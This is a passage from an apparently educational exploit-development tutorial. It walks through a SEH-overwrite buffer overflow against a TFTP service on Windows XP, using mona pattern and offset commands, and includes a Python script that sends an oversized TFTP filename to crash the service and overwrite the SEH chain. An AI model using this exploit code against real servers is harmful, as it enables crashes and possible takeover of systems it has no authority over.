 ## Pattern Time!

Next we do a `!mona pc 2000` to generate our Metasploit pattern of 2000 characters and replace our A's in the original exploit with this:

[![](https://1.bp.blogspot.com/-ZpgiQdYMrTQ/UK5ZrFFVHCI/AAAAAAAAAE8/SOqhTXg1_Qo/s0/Selection_023.png)](https://1.bp.blogspot.com/-ZpgiQdYMrTQ/UK5ZrFFVHCI/AAAAAAAAAE8/SOqhTXg1_Qo/s0/Selection_023.png)

And the resulting crash:

[![](https://2.bp.blogspot.com/-277BglovLyc/UK5ZzfUkfsI/AAAAAAAAAFE/0p7sEHs2Lkc/s0/Windows+XP+Professional+SP2+-+VMware+Player+(Non-commercial+use+only)_024.png)](https://2.bp.blogspot.com/-277BglovLyc/UK5ZzfUkfsI/AAAAAAAAAFE/0p7sEHs2Lkc/s0/Windows+XP+Professional+SP2+-+VMware+Player+(Non-commercial+use+only)_024.png)

As show in the previous tutorial we then try to find the offsets. We do this by running:

`!mona findmsp`

And the results should be similar to the following:

[![](https://2.bp.blogspot.com/-ikU6y43TroY/UK5cH9L1rMI/AAAAAAAAAFM/Rb_jEk3VNSM/s0/Selection_025.png)](https://2.bp.blogspot.com/-ikU6y43TroY/UK5cH9L1rMI/AAAAAAAAAFM/Rb_jEk3VNSM/s0/Selection_025.png)

 The from this the important things that we gather are:

* NSEH is overwritten 1492 bytes in.
* EDX is overwritten 1522 bytes in.
* ECX is overwritten 1526 bytes in.

## Restructuring the Exploit

After taking all this into account we make a new exploit as follows:

```python
import socket 
host = "127.0.0.1"
port = 69 

filename = "A" * 1492
filename += "B" * 4 # NSEH overwrite
filename += "C" * 4 # SEH overwrite 

mode = "netascii" 
data = "\x00\x02" + filename + "\0" + mode + "\0" 

handler = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
handler.sendto(data, (host,port))
```

We then send the new exploit and get the following in the SEH chain.

[![](https://4.bp.blogspot.com/-bwsMn_u4X28/UK5eYdJd_lI/AAAAAAAAAFc/Xuh79o4Ato8/s0/Selection_026.png)](https://4.bp.blogspot.com/-bwsMn_u4X28/UK5eYdJd_lI/AAAAAAAAAFc/Xuh79o4Ato8/s0/Selection_026.png)

If we right click on the first entry and select `Follow Address in Stack` we see the following:
